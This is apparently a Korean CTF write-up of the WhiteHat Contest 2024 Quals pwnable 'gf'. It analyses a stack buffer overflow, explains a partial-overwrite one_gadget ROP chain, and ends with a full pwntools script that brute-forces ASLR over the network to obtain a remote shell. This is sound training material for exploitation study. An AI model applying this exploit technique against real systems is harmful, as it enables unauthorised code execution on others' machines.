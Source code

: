 ```yaml
---
title: WhiteHat Contest 2024 Quals - gf
date: 2024-11-19 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, rop, partial overwrite, one gadget, brute force]
---
```


## 0x00. Introduction
``` bash
[*] '/home/user/gf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
가젯 이리 저리 조합하다가 매몰되어버린 문제.

종료 20분 전에 알아버렸다...

## 0x01. Vulnerability
``` c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char dest[16]; // [rsp+10h] [rbp-10h] BYREF

  setbuf_4011A5();
  read(0, &unk_404060, 0xBCuLL);
  memcpy(dest, &unk_404060, 0xBBuLL);
  return 1LL;
}
```
16바이트 `dest`에 0xbc만큼 입력을 받는 단순한 BOF 취약점이 발생한다.

## 0x02. Exploit
출력 함수는 커녕 ROP를 하기 위한 가젯이 하나도 없다.

그러다가 메모리를 보고 힌트를 얻었다.
``` bash
gef➤  x/4gx $rsp + 0xb0
0x7fffffffed00: 0x0000000000000000      0x0000000000000000
0x7fffffffed10: 0x0000000000000000      0x00007ffff7000000
```
`read()`의 마지막 부분인 `dest + 0xb8` 근처를 보면 매우 수상하게 libc 주소의 일부가 있다.

하위 3바이트가 `0x00`으로 되어있는데, 딱 이 부분까지 쓸 수 있다. 
``` bash
gef➤  x/4gx $rsp + 0xb0
0x7fffffffed00: 0x4141414141414141      0x4141414141414141
0x7fffffffed10: 0x4141414141414141      0x00007ffff7434241
```
따라서 libc leak 없이 이 부분을 이용해서 예상되는 one shot 가젯 주소를 만들어두고 ASLR에 의해 확률적으로 해당 주소에 진짜 one shot 가젯이 로드되길 기대하는 방법이 있다.

`main()`에서 return을 할 때의 레지스터 값들은 다음과 같다.
``` bash
$rax   : 0x1
$rbx   : 0x0
$rcx   : 0x0000000000404060  →  "AAAAAAAAAAAAAAAA\n"
$rdx   : 0xbb
$rsp   : 0x00007fffffffec98  →  0x0000000000000000
$rbp   : 0xa
$rsi   : 0x0000000000404060  →  "AAAAAAAAAAAAAAAA\n"
$rdi   : 0x00007fffffffec80  →  "AAAAAAAAAAAAAAAA\n"
$rip   : 0x0000000000401281  →   ret
$r8    : 0x00007ffff7fabf10  →  0x0000000000000004
$r9    : 0x00007ffff7fc9040  →  0xe5894855fa1e0ff3
$r10   : 0x00007ffff7fc3908  →  0x000d00120000000e
$r11   : 0x246
$r12   : 0x00007fffffffeda8  →  0x00007fffffffef5c  →  0x3d48544150006667 ("gf"?)
$r13   : 0x000000000040122a  →   endbr64
$r14   : 0x0000000000403dc0  →  0x0000000000401160  →   endbr64
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
```
이 상태에서 one shot 가젯 조건을 맞춰줘야하는데 가젯만 몇 시간을 봤더니 바로 방법이 떠올랐다.
``` bash
➜  one_gadget libc.so.6
...
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
...
```
One shot 가젯 중 위와 같이 `rsi`, `rdx`에 조건이 걸려있는 가젯이 있었고 바이너리에 있는 가젯중 다음과 같은 것들이 있다.
``` bash
➜  objdump -M intel -d gf
...
# shift_rsi_ret gadget
  40112c:       48 89 f0                mov    rax,rsi
  40112f:       48 c1 ee 3f             shr    rsi,0x3f
  401133:       48 c1 f8 03             sar    rax,0x3
  401137:       48 01 c6                add    rsi,rax
  40113a:       48 d1 fe                sar    rsi,1
  40113d:       74 11                   je     401150 <setvbuf@plt+0xb0>
  40113f:       b8 00 00 00 00          mov    eax,0x0
  401144:       48 85 c0                test   rax,rax
  401147:       74 07                   je     401150 <setvbuf@plt+0xb0>
  401149:       bf 10 40 40 00          mov    edi,0x404010
  40114e:       ff e0                   jmp    rax
  401150:       c3                      ret
...
# pop_rsi_pop_rdx_push_rsi_ret gadget
  40119e:       5e                      pop    rsi
  40119f:       5a                      pop    rdx
  4011a0:       56                      push   rsi
  4011a1:       c3                      ret
```
우선 `rdx`는 `pop_rsi_pop_rdx_push_rsi_ret` 가젯을 통해 컨트롤이 가능하고 어떤 의도인지는 모르겠으나 `shift_rsi_ret` 가젯을 통해 `rsi`를 0.5바이트씩 right shift 할 수 있다.

`rsi`에는 `0x404060`가 저장되어있으므로 `shift_rsi_ret` 가젯을 6번 호출하면 `rsi`를 `0`으로 만들 수 있다.

추가로 `rbp-0x78`가 writable 해야하는 조건이 있는데 대충 Data 영역의 중간인 `0x404800`으로 설정해주었다.

확률을 계산해보면 `0x7ffff7XXXc88`가 실제로 one shot 가젯의 주소여야하므로 1.5바이트, 즉 1/4096 확률로 exploit이 성공한다.

그런데 예선이 끝나고 다른 분의 exploit을 보니 100% exploit에 성공할 수 있는 방법이 있었다.

몰랐던 내용이기도 하고 일반적으로 사용할 수 있을 것 같아서 따로 포스팅하겠다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "gf"
LIBRARY = "libc.so.6"
CONTAINER = "5189692c7e21"
bp = {
    'main_ret' : 0x401281,
}

gs = f'''
b *{bp["main_ret"]}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main(server, port, debug):
    if(port):
        # s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    shift_rsi_ret = 0x40112c
    pop_rsi_pop_rdx_push_rsi_ret = 0x40119e

    payload = b"A" * 0x10
    payload += p64(0x404800)
    payload += p64(pop_rsi_pop_rdx_push_rsi_ret)
    payload += p64(shift_rsi_ret)
    payload += p64(0)
    payload += p64(shift_rsi_ret) * 5
    payload += p64(bp['main_ret']) * ((0xb8 - len(payload)) // 8)
    payload += b"\x88\xac\x4b"      # 0x754c18 4b ac 88

    while 1:
        s = remote(server, port)
        s.sendline(payload)
        try:
            sleep(0.2)
            s.sendline(b"id")
            r = s.recvline(timeout=1)
            if b"(pwn)" in r:
                log.success(f"id : {r}")
                s.interactive()
                s.close()
            else:
                log.info(r)
        except Exception as e:
            log.failure(e)
            s.close()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```